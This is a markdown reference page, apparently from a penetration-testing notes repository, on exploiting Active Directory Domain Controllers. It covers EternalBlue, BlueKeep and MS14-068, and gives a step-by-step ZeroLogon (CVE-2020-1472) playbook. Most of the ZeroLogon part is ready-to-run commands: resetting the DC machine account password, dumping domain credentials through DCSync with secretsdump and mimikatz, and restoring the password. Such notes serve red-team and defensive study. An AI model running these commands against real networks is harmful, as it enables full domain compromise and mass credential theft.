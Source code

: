 # Active Directory - Domain Controllers vulnerabilities

### RCE on exposed Windows services

The services exposed by the Domain Controllers may be vulnerable to well known
critical vulnerabilities that can be leveraged to remotely execute code on a
vulnerable Domain Controller.

The following vulnerabilities are worth mentioning:

| Vulnerability | Service | Patch release date | Note |
|---------------|---------|--------------------|------|
| `EternalBlue` / `MS17-010` | `SMB`: TCP Port 445 | March 14, 2017 | `[L7] 445 SMB` |
| `BlueKeep` / `CVE-2019-0708` | `Terminal Services`: TCP port 3389 | May 13, 2019 | Vulnerable operating systems: <br> <= `Windows 2008 / 2008 R2` <br> <= `Windows 7` <br><br> `[L7] 3389 RDP` |

### (Likely patched) MS14-068

`MS14-068` is a vulnerability that lies in the Microsoft implementation of the
`Kerberos` protocol. A problem in the verification of the `Privilege Attribute
Certificate (PAC)` in a `Kerberos` `service ticket` request allows any domain
user may to forge a `PAC` with arbitrary privileges.

The `Metasploit`'s `ms14_068_kerberos_checksum` module can be used to request a
`kerberos` `Ticket-Granting Ticket (TGT)` with a forged `PAC`. The `TGT` is
exported by the module is the `credential cache (ccache)` format. Refer to the
`[ActiveDirectory] Kerberos tickets usage` for more information on how to use
the `Kerberos` ticket from Windows and Linux operating systems.

```
use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
```

### ZeroLogon - CVE-2020-1472

`ZeroLogon` is a critical security flaw (`CVSS` score: 10.0) in the Active
Directory `Netlogon Remote Protocol` `MSRPC` protocol (`MS-NRPC`).

As stated in the [original research
publication](https://www.secura.com/blog/zero-logon): "The vulnerability stems
from a flaw in a cryptographic authentication scheme used by the `Netlogon
Remote Protocol`, which among other things can be used to update computer
passwords. This flaw  allows attackers to impersonate any computer, including
the domain controller itself, and execute remote procedure calls on their
behalf."

Knowledge of the targeted Domain Controller (`DC`) machine account password can
notably be leveraged to conduct `DCSync` attacks.

However, resetting the `DC` machine account password through this
attack will break communications with others `Domain Controllers` and make the
`DC` misbehave in undefined ways. As the password is only updated in the Active
Directory `ntds.dit` database, the previous `DC` machine account password can
be retrieved in the `HKLM\Security` hive (`HKLM\SECURITY\Policy\Secrets\
$machine.ACC`) of the `DC` and restored.

###### Exploitation in Python - Impacket update

For exploit code using `impacket`, the library must be updated to, at least,
the version published on `September 15th 2020` (update to the `dcerpc.v5.nrpc`
library). In order to do so, a Python `virtualenv` can be created or the
system-wide `impacket` installation updated:

```
# Creation of a Python virtualenv
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
python3 -m pip install virtualenv
python3 -m virtualenv impkt
source impkt/bin/activate
pip install git+https://github.com/SecureAuthCorp/impacket

# System wide update from sources.
apt remove --purge impacket impacket-scripts python-impacket python3-impacket
apt autoremove
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
pip3 install .
python3 setup.py install
```

Alternatively, static standalone binaries (embedding `impacket`) for Windows
and Linux (both x64) are available in the following GitHub repository:
`https://github.com/Qazeer/dirkjanm_CVE-2020-1472_static_binaries`.

###### 0. Detection

Multiple tools may be used to detect if the Domain Controllers are vulnerable
to the `ZeroLogon` vulnerability.

`PingCastle`'s `zerologon` scanner presents the advantage of automatically
enumerating the Domain Controllers through AD requests and conduct scan for all
the enumerated Domain Controllers. It however can only be executed from a
machine integrated in the targeted Active Directory domain.  

```
PingCastle.exe --scanner zerologon --scmode-dc

# The -patch flag is required to conduct the scan from a non domain-joined client.
# Compiled binary: https://github.com/r3motecontrol/Sharp-Suite-CompiledBinaries
SharpZeroLogon.exe <DC_FQDN> <-patch>

Invoke-Zerologon -FQDN <DC_FQDN>
```

###### 1. DC machine account password reset

Multiple tools may be used to exploit the `ZeroLogon` vulnerability to set an
empty password for the targeted `DC` machine account.

```
secretsdump_linux -just-dc -no-pass "<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>"
secretsdump_windows.exe -just-dc -no-pass "<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>"

# Source: https://github.com/dirkjanm/CVE-2020-1472
python3 cve-2020-1472-exploit.py <DC_NETBIOS_NAME> <DC_IP>

msf > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set action REMOVE
...

# The -patch flag is required to conduct the scan from a non domain-joined client.
# Compiled binary: https://github.com/r3motecontrol/Sharp-Suite-CompiledBinaries
SharpZeroLogon.exe <DC_FQDN> -reset <-patch>

Invoke-Zerologon -FQDN <DC_FQDN> -Reset
```

###### 2. Empty password DCSync

`Impacket`'s `secretsdump` or `mimikatz` may be used to conduct replication
operations (`DCSync`) using the `DC` machine account with an empty password.

```
secretsdump.py -just-dc -no-pass '<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>'

# Static compiled binary: https://github.com/ropnop/impacket_static_binaries
secretsdump_windows.exe -just-dc -no-pass '<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>'
secretsdump_linux_x86_64 -just-dc -no-pass '<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>'

mimikatz # lsadump::dcsync /domain:<DOMAIN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME> /authuser:<DC_MACHINE_ACCOUNT$> /authdomain:<DOMAIN_NETBIOS_NAME> /authpassword:"" /authntlm
```

###### 3. DC machine account password restoration

Remote access to the `HKLM\SECURITY` registry hive requires `Domain Admin`
privileges. Access conducted using the DC machine account thus result in
access denied error (`rpc_s_access_denied`). The extraction of the `DC`
plaintext machine password from the `HKLM\SECURITY` registry hive must be done
using of the `Domain Admin` accounts compromised during the previous `DCSync`
attack.

`Impacket`'s `secretsdump.py` Python script can be used to remotely extract the
`DC` machine account secrets from the `HKLM\SECURITY` registry hive. A version
post the 15th 2020 update should be used as it will automatically dump the
plaintext machine password hex encoded required for the restoration (using
dirkjanm's `restorepassword.py` Python script and the `Metasploit`'s
`cve_2020_1472_zerologon` module).

Alternatively, remote code execution using `Domain Admin` or `Operators`
credentials can be leveraged to retrieve the `HKLM\SAM`, `HKLM\SECURITY`, and
`HKLM\SYSTEM` registry hives from the `DC` and `Impacket`'s `secretsdump.py`
Python script used to locally extract the DC machine password from the hives.
Refer to the `[Windows] Lateral movements` and `[Windows] Post exploitation`
notes for more information.  

```
# Retrieves the original DC machine account hex encoded plain-text password and NTLM hash.
secretsdump.py -hashes ":<NTLM>" '<DOMAIN>/<Administrator | DA_USERNAME>@<DC_IP>'

# Restore the DC machine account original password.

restorepassword_windows.exe -target-ip "<DC_IP>" -hexpass "<DC_MACHINE_ACCOUNT_HEX_PASSWORD>" "<DOMAIN>/<DC_HOSTNAME>@<DC_HOSTNAME>"
restorepassword_linux -target-ip "<DC_IP>" -hexpass "<DC_MACHINE_ACCOUNT_HEX_PASSWORD>" "<DOMAIN>/<DC_HOSTNAME>@<DC_HOSTNAME>"

# Source: https://github.com/dirkjanm/CVE-2020-1472
python3 restorepassword.py -target-ip <DC_IP> -hexpass <DC_MACHINE_ACCOUNT_HEX_PASSWORD> '<DOMAIN>/<DC_HOSTNAME>@<DC_HOSTNAME>'

msf > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
msf auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set action RESTORE
...

# Source: https://github.com/risksense/zerologon
python3 reinstall_original_pw.py <DC_NETBIOS_NAME> <DC_IP> <ORIGINAL_NTLM_HASH>
```
